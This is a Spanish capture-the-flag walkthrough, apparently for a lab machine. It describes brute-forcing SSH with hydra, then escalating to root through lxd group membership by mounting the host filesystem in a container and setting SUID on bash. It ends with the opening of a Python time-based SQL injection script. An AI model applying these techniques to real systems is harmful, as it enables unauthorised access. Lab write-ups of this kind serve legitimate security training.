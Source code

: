 Como vemos se genera un diccionario de 1093 contraseñas. Por lo que utilizamos `hydra` para hacer fuerza bruta con dicho diccionario:
![[Pasted image 20240911155834.png]]

Una vez ya sabemos la contraseña, accedemos por SSH y podemos visualizar la primera *flag*:
![[Pasted image 20240911155857.png]]

Si listamos los grupos del usuario "coherer" vemos que está en el grupo "lxd" por lo que podemos escalar privilegios fácilmente. 
![[Pasted image 20240911155933.png]]

Primeramente, nos clonamos en nuestra máquina el siguiente repositorio e instalamos la imagen de "build-alpine":
![[Pasted image 20240911153516.png]]

Una vez creada la transferimos a la máquina víctima con Python:
![[Pasted image 20240911153642.png]]
![[Pasted image 20240911160232.png]]

Una vez transferido a la máquina víctima, importamos la imagen y creamos un contenedor con la raíz del sistema en el directorio `/mnt` del contenedor:
![[Pasted image 20240911160704.png]]
![[Pasted image 20240911160808.png]]
![[Pasted image 20240911160955.png]]
![[Pasted image 20240911161137.png]]

Una vez añadido el permiso SUID a la "bash" de la máquina víctima desde el contenedor, podemos ejecutar en la máquina víctima el comando `bash -p` y obtener una "bash" como *root*:
![[Pasted image 20240911161253.png]]

Por lo que si accedemos a `/root` podemos visualizar la última *flag*:
![[Pasted image 20240911161328.png]]


## SQLI Python Script
```python
from pwn import *
import requests
import string
import sys, signal
import argparse
import time
import urllib.parse

TIME = None


def sig_handler(sig, frame):
    print("\n\n[!] Exiting...")
    sys.exit(1)

signal.signal(signal.SIGINT, sig_handler)

def get_params():
    parser = argparse.ArgumentParser()
    parser.add_argument("-d", "--database", help="Database name")
    parser.add_argument("-t", "--table", help="Table name")    
    parser.add_argument("-c", "--column", help="Column name")
    parser.add_argument("-T", "--TIME", help="Time to sleep", default=2)
```